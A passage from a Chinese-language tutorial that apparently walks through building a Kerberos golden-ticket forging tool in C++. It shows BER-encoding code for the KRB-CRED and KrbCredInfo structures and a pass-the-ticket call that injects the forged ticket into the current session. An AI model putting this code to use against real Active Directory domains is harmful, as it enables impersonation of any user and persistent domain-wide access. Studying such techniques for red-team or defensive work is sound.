 ```c++
	ber_printf(pBerEnc, (PSTR)"}t{", MAKE_CTX_TAG(ID_CTX_KRBCREDINFO_ENDTIME));
	ASN1GeneralizedTimeFromFileTime(pBerEnc, &pTicket->EndTime);
	ber_printf(pBerEnc, (PSTR)"}t{", MAKE_CTX_TAG(ID_CTX_KRBCREDINFO_RENEW_TILL));
	ASN1GeneralizedTimeFromFileTime(pBerEnc, &pTicket->RenewUntil);
	ber_printf(pBerEnc, (PSTR)"}t{", MAKE_CTX_TAG(ID_CTX_KRBCREDINFO_SREALM));
	ASN1GeneralStringFromUnicodeString(pBerEnc, &pTicket->DomainName);
	ber_printf(pBerEnc, (PSTR)"}t{", MAKE_CTX_TAG(ID_CTX_KRBCREDINFO_SNAME));
	CreateSequencePrincipalName(pBerEnc, pTicket->ServiceName);
	ber_printf(pBerEnc, (PSTR)"}}}}}}");

	if (ber_flatten(pBerEnc, &pBerValEnc) >= 0)
	{
		CreateSequenceEncryptedData(pBer, KERB_ETYPE_NULL, 0, pBerValEnc->bv_val, pBerValEnc->bv_len);
	}
	ber_free(pBerEnc, 1);
}
```

其中，`ticket-info` 成员是 `KrbCredInfo` 类型的序列，包含以下信息，主要来自于封装的票据中的 EncTicketPart 部分成员，如下所示。

```ASN.1
KrbCredInfo     ::= SEQUENCE {
        key             [0] EncryptionKey,
        prealm          [1] Realm OPTIONAL,
        pname           [2] PrincipalName OPTIONAL,
        flags           [3] TicketFlags OPTIONAL,
        authtime        [4] KerberosTime OPTIONAL,
        starttime       [5] KerberosTime OPTIONAL,
        endtime         [6] KerberosTime OPTIONAL,
        renew-till      [7] KerberosTime OPTIONAL,
        srealm          [8] Realm OPTIONAL,
        sname           [9] PrincipalName OPTIONAL,
        caddr           [10] HostAddresses OPTIONAL
}
```

最后，通过 `ber_flatten()` 函数，获取 `KRB_CRED` 结构经过 BER 编码规则编码的任意二进制数据并返回。

至此，所有构造工作都已完成，我们可以将构建好的 `KRB-CRED` 结构数据通过票据传递提交到内存中，如下所示。

```c++
if (isPtt)
{
	status = KerberosPTT(BerAppKrbCred->bv_val, BerAppKrbCred->bv_len);
	if (!status)
	{
		wprintf(L"[-] Failed to pass the kerberos ticket.\n");
		return status;
	}
	wprintf(L"   * Golden ticket for '%s @ %s' successfully submitted for current session.\n", lpUser, lpDomain);
}
```
